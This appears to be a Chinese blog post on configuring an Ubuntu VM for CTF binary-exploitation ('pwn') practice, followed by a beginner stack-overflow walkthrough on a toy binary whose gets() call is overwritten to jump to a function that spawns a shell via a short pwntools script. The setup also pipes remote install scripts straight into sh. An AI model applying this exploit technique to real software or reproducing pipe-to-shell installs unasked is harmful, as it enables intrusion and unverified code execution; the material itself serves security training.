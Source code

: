 > 往往我们做pwn题，都是拿到可执行文件(elf)其依赖文件libc.so,工欲善其事必先利其器，利用好的工具，可以事半功倍。在此列出自己做pwn题的虚拟机ubuntu配置，更加期待WSL2上线后，使用docker部署pwn环境做题

主要工具：
`vim` ： 安装插件，为后续编写exploit
`peda` ：gdb插件，调试神器，谁用谁知道
`pwngdb、gef` ：同上
`pwndbg`：GitHub上的一个项目,用于GDB的辅助增强
`pwntools`：常见的pwn漏洞堆溢出、栈溢出、use after free、格式化字符串、命令注入以及竞态(常见于多线程)等程序漏洞，在程序漏洞利用常利用python脚本来编写exploit
Capstone、Binutils...
`rop工具` :ROPgadget、one_gadget，这两个都很好用，one_gadget主要是用来寻找libc文件中的一些shell地址的、ROPgadget则主要是用来构建rop链的，非常实用
`LibcSearcher`:用来泄露libc库中函数的偏移的库

<!-- more -->

## 配置

### VIM

```
wget -qO- https://raw.github.com/ma6174/vim/master/setup.sh | sh -x
```
[详细配置地址](https://github.com/ma6174/vim )

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472525276.png)

### 安装Capstone（反编译框架）

``` gams
~$ git clone https://github.com/aquynh/capstone
~$ cd capstone
~$ make
~$ sudo make install
```
### 安装Binutils（二进制工具集）

``` vim
git clone https://github.com/Gallopsled/pwntools-binutils
sudo apt-get install software-properties-common
sudo apt-add-repository ppa:pwntools/binutils
sudo apt-get update
sudo apt-get install binutils-arm-linux-gnu
```

### 第三方库

在逆向和溢出程序交互时，用得最多的几个第三方库先装好：
```
sudo pip install pwntools
sudo pip install zio
sudo pip install pwn
```
在配置python-pip的过程中遇到了点问题
升级pip==19.1.1后，出现如下报错：
![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472525298.png)

可行的解决方案是修改报错行的代码

``` 
from pip._internal import main
```
ssl验证问题

``` 
　rm -rf /usr/lib/python2.7/dist-packages/OpenSSL
　rm -rf /usr/lib/python2.7/dist-packages/pyOpenSSL-0.15.1.egg-info
　sudo pip install pyopenssl
```
出现checksec无法使用的问题

``` vim
pip3 install git+https://github.com/arthaud/python3-pwntools.git
```

### 安装gdb工具

在调试时有时候需要不同功能，在gdb下需要安装两个工具pwndbg和peda，可惜这两个不兼容

pwndbg在调试堆的数据结构时候很方便

peda在查找字符串等功能时方便

#### peda
``` jboss-cli
git clone https://github.com/longld/peda.git ~/peda

echo "source ~/peda/peda.py" >> ~/.gdbinit

echo "DONE! debug your program with gdb and enjoy"
```
#### pwndbg

``` vim
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```
#### pwngdb

``` vim
cd ~/
git clone https://github.com/scwuaptx/Pwngdb.git 
cp ~/Pwngdb/.gdbinit ~/
```
#### gef

``` stylus
#via the install script
$ wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
#manually
$ wget -O ~/.gdbinit-gef.py -q https://github.com/hugsy/gef/raw/master/gef.py
$ echo source ~/.gdbinit-gef.py >> ~/.gdbinit
```

我们通过修改`gdbinit`来切换想使用的插件
![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472525084.png)

### ROPgadget

https://github.com/JonathanSalwan/ROPgadget

### one_gadget

``` sql
apt-get install ruby
apt-get install gem
sudo gem install one_gadget
```
### LibcSearcher

``` vim
git clone https://github.com/lieanu/libc.git
cd libc
git submodule update --init --recursive
sudo python setup.py develop
```
## 实例:Pwn分析之栈溢出

![解题思路](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472524627.png)

## 解题步骤  

### 0X01 

反编译得到C伪代码

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable();
  return 0;
}
```
main函数调用vulnerable()函数

vulnerable()函数逆向结果

```
int vulnerable()
{
  char s; // [esp+4h] [ebp-14h]

  gets(&s);
  return puts(&s);
}
```
vulnerable()函数中调用了gets()和puts()函数，而程序的逻辑只运行main函数和vulnerable函数

![所有函数](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472525345.png)

vulnerable函数功能：输入字符串，输出字符串
程序中主要函数有
内置函数：`gets`、`puts`、`system`
自定义函数：`main`、`success`

### 0X02

通过C伪代码最终得到的C代码如下：
```
#include <stdio.h>
#include <string.h>
void success() { 
   puts("You Hava already controlled it.");
   system("/bin/sh");
}
void vulnerable() {
 char s[12];
 gets(s);
 puts(s);
 return;
}
int main(int argc, char **argv) {
 vulnerable();
 return 0;
}
```
gets() 是一个危险函数，因为它不检查输入字符串的长度，而是以回车来判断是否输入结束，所以很容易导致栈溢出

### 0X03

查看程序的保护机制：

![check](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472525088.png)

输入s的值溢出到返回地址，将返回地址替换成success函数的起始地址

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472524825.png)

EBP与EBP的距离14H，而栈中的EBP占栈内存4H，所以要覆盖到放回地址需要18H

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472525098.png)

编写脚本如下：

```
from pwn import *
sh = process('./Ezreal')
success_addr = 0x080491A2

payload = 'a' * 0x18 + p32(success_addr)
print p32(success_addr)

sh.sendline(payload)

sh.interactive()
```
利用脚本后的栈结构如下：

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472524648.png)

运行脚本，成功拿到shell：

![](https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589472524647.png)

